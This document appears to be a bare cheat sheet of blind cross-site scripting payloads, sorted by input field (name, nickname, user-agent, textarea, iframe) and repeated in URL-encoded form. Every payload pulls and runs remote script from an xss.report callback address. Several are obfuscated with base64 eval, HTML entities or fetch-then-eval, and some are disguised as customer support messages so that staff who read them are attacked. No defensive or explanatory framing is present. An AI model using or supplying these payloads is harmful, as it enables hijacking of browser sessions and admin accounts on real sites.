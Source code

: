 #### First name
```
Hunter ';"/></script><script/src=//xss.report/c/hnterx?fn
```
### Input
```
"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnJlcG9ydC9jL2hudGVyeD8xMCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; autofocus>
```
#### Nickname
```
'";//></textarea></script><script/src=//xss.report/c/hnterx?nn
```
#### Parameter input
```
<svg/onload=import('//xss.report/c/hnterx?svg')>
```
#### User-agent
```
'"/></textarea></script><script/src=//xss.report/c/hnterx?ua
```
### All textarea
```
I have some problem with my account please check

<svg/onload=import('//xss.report/c/hnterx?svg')>
```
```
I have some problem with my account please check

<img/src/onerror=import('//xss.report/c/hnterx?img');//>
```
```
I have some problem with my account please check

';"/></textarea></script><script/src=//xss.report/c/hnterx?tr
```
```
<img/src/onerror=import('//xss.report/c/hnterx?img');//>
<svg/onload=import('//xss.report/c/hnterx?svg')>
'";//></textarea></script><script/src=//xss.report/c/hnterx?60
';"/></textarea></script><script/src=//xss.report/c/hnterx?tr
';"/></textarea></script><script src="https://xss.report/c/hnterx?46"></script>
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html " onmouseover=/*&lt;svg/*/onload=(import(/https:\xss.report\c\hnterx/.source))//>
'"></Title/</StYle/</TeXtarEa/</ScRipt/</NoScRiPt/</SeLeCt/</OpTiOn/</Svg/''"><svg/onload=javascript:eval(atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnJlcG9ydC9jL2hudGVyeD8yMiI7ZG9jdW1lbnQuYm9keS5hcHBlbmQoYSk7'))//
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html " onmouseover=/*&lt;svg/*/onload=(import(/https://xss.report/c/hnterx?31/.source))//>
--></tiTle></stYle></texTarea></scrIpt>"//'//><scrIpt src="https://xss.report/c/hnterx?35"></scrIpt>
"\"></script></title></textarea><script src='https://xss.report/c/hnterx?36'></script>"
'/*'/*`/*--></noscript></title></textarea></style></template></noembed></script>"//'//><scrIpt src="https://xss.report/c/hnterx?37"></scrIpt>
'"></title></textarea></script></style></noscript><script src=https://xss.report/c/hnterx?38></script>
--></tiTle></stYle></texTarea></scrIpt>"//'//><scrIpt src=https://xss.report/c/hnterx?40></scrIpt>
/*'/*`/*--></noscript></title></textarea></style></template></noembed></script>"//'//><scrIpt src="https://xss.report/c/hnterx?41"></scrIpt>
`'"></script></title></textarea><script src=//xss.report/c/hnterx?53></script>
--></tiTle></stYle></texTarea></scrIpt>"//'//><scrIpt src="//xss.report/c/hnterx?54"></scrIpt>
`'"></Title/</StYle/</TeXtarEa/</ScRipt/</NoScRiPt/</SeLeCt/</OpTiOn/</Svg/''"><svg/onload=javascript:eval(atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnJlcG9ydC9jL2hudGVyeD81NSI7ZG9jdW1lbnQuYm9keS5hcHBlbmQoYSk7'))//
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html " onmouseover=/*<svg*/onload=import(/https:\xss.report/c/hnterx?58\/.source)//>
```
### Iframe
```
"><iframe srcdoc="&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#118;&#97;&#114;&#32;&#97;&#61;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#114;&#101;&#97;&#116;&#101;&#69;&#108;&#101;&#109;&#101;&#110;&#116;&#40;&#34;&#115;&#99;&#114;&#105;&#112;&#116;&#34;&#41;&#59;&#97;&#46;&#115;&#114;&#99;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;xss.report/c/hnterx&#34;&#59;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#98;&#111;&#100;&#121;&#46;&#97;&#112;&#112;&#101;&#110;&#100;&#67;&#104;&#105;&#108;&#100;&#40;&#97;&#41;&#59;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;">
<script>$.getScript("//xss.report/c/hnterx?12")</script>
```
### xss.report encoded all payloads
``
'%22%3E%3Cscript%20src=https://xss.report/c/hnterx%3E%3C/script%3E
javascript:eval('var%20a=document.createElement(%5C'script%5C');a.src=%5C'https://xss.report/c/hnterx%5C';document.body.appendChild(a)')
%22%3E%3Cvideo%3E%3Csource%20onerror=eval(atob(this.id))%20id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnJlcG9ydC9jL2hudGVyeCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61;%3E
%3Cscript%3Efunction%20b()%7Beval(this.responseText)%7D;a=new%20XMLHttpRequest();a.addEventListener(%22load%22,%20b);a.open(%22GET%22,%20%22//xss.report/c/hnterx%22);a.send();%3C/script%3E
var%20a=document.createElement(%22script%22);a.src=%22https://xss.report/c/hnterx%22;document.body.appendChild(a);
%3Csvg%20onload=%22javascript:eval('var%20a=document.createElement(%5C'script%5C');a.src=%5C'https://xss.report/c/hnterx%5C';document.body.appendChild(a)')%22%20/%3E
%3Cdiv%20onmouseover=%22var%20a=document.createElement('script');a.src='https://xss.report/c/hnterx';document.body.appendChild(a)%22%3EHover%20me%3C/div%3E
%3Cbody%20onload=%22var%20a=document.createElement('script');a.src='https://xss.report/c/hnterx';document.body.appendChild(a)%22%3E
%22%3E%3Cimg%20src=x%20id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnJlcG9ydC9jL2hudGVyeCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61;%20onerror=eval(atob(this.id))%3E
%22%3E%3Cinput%20onfocus=eval(atob(this.id))%20id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnJlcG9ydC9jL2hudGVyeCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61;%20autofocus%3E
%22%3E%3Ciframe%20srcdoc=%22&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#118;&#97;&#114;&#32;&#97;&#61;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#114;&#101;&#97;&#116;&#101;&#69;&#108;&#101;&#109;&#101;&#110;&#116;&#40;&#34;&#115;&#99;&#114;&#105;&#112;&#116;&#34;&#41;&#59;&#97;&#46;&#115;&#114;&#99;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;xss.report/c/hnterx&#34;&#59;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#98;&#111;&#100;&#121;&#46;&#97;&#112;&#112;&#101;&#110;&#100;&#67;&#104;&#105;&#108;&#100;&#40;&#97;&#41;&#59;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;%22%3E
%3Cscript%3E$.getScript(%22//xss.report/c/hnterx%22)%3C/script%3E
javascript:%22/*'/*%60/*--%3E%3C/noscript%3E%3C/title%3E%3C/textarea%3E%3C/style%3E%3C/template%3E%3C/noembed%3E%3C/script%3E%3Chtml%20%22%20onmouseover=/*&lt;svg/*/onload=(import(/https:%5Cxss.report%5Cc%5Chnterx/.source))//%3E
%3Ciframe%20src=%22javascript:var%20a=document.createElement('script');a.src='https://xss.report/c/hnterx';document.body.appendChild(a)%22%3E%3C/iframe%3E
%3Caudio%20src=%22x%22%20onerror=%22var%20a=document.createElement('script');a.src='https://xss.report/c/hnterx';document.body.appendChild(a)%22%3E
%3Cscript%3Efetch(%22//xss.report/c/hnterx%22).then(r=%3Er.text()).then(t=%3Eeval(t))%3C/script%3E
```
